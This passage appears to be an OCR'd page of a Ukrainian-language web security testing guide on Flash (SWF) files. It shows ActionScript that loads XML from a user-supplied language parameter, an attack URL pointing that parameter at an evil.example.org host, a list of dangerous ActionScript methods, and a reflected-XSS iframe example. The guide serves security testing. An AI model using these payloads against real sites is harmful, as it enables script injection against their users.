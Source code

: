 >             }
> 
>             on_load();
> 
>         } else {}
> 
>         };
> 
>         if (_root.language != undefined) {
> 
>         Locale.DEFAULT_LANG = _root.language;
> 
>         }
> 
>         v5.load(Locale.DEFAULT_LANG + '/player_' +
> 
>                             Locale.DEFAULT_LANG + '.xml');
> 
>     };

Наведений вище код можна атакувати, запитуючи:

> `http://victim/file.swf?language=http://evil.example.org/malicious.xml?`

## Небезпечні методи
Коли визначено точку входу, дані, які вона представляє, можуть бути використані небезпечними методами. Якщо дані не відфільтровано чи перевірено, це може призвести до певних уразливостей.

Небезпечними методами з версії r47 є:

* loadVariables()
* loadMovie()
* getURL()
* loadMovie()
* loadMovieNum()
* FScrollPane.loadScrollContent()
* LoadVars.load
* LoadVars.send
* XML.load ( 'url' )
* LoadVars.load ( 'url' )
* Sound.loadSound( 'url' , isStreaming );
* NetStream.play( 'url' );
* flash.external.ExternalInterface.call(_root.callback)
* htmlText

## Експлуатація Reflected XSS
Swf-файл має бути розміщено на хості жертви, і слід використовувати техніку відображеного XSS. Зловмисник змушує веб-переглядач завантажити чистий swf-файл безпосередньо в рядок розташування (шляхом переспрямування чи соціальної інженерії) або завантажуючи його через iframe зі зловмисної сторінки:

> `<iframe src='http://victim/path/to/file.swf'></iframe>`
